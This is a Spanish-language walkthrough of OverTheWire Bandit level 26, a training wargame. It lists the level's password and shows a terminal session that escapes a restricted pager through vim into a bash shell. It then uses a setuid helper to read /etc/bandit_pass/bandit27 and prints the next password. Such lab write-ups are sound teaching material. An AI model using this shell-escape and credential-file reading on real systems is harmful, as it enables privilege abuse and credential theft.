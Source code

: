 ## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!

## Datos de acceso al nivel
bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1

## Solución

```
_ _ _ _ ___ __  
| | | (_) | |__ \ / /  
| |__ __ _ _ __ __| |_| |_ ) / /_  
| '_ \ / _` | '_ \ / _` | | __| / / '_ \  
--More--(66%)  
v  
_ _ _ _ ___ __  
| | | (_) | |__ \ / /  
| |__ __ _ _ __ __| |_| |_ ) / /_  
| '_ \ / _` | '_ \ / _` | | __| / / '_ \  
| |_) | (_| | | | | (_| | | |_ / /| (_) |  
"~/text.txt" [readonly] 6L, 258B  
:set shell=/bin/bash  
:shell  
[No write since last change]  
bandit26@bandit:~$ bandit26@bandit:~$ ls  
bandit27-do text.txt  
bandit26@bandit:~$ ./bandit27-do id  
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)  
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27  
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS  
bandit26@bandit:~$  
bandit26@bandit:~$ exit  
:qa!  
q
```

## Notas adicionales
ls

## Referencias
https://overthewire.org/wargames/bandit/bandit27.html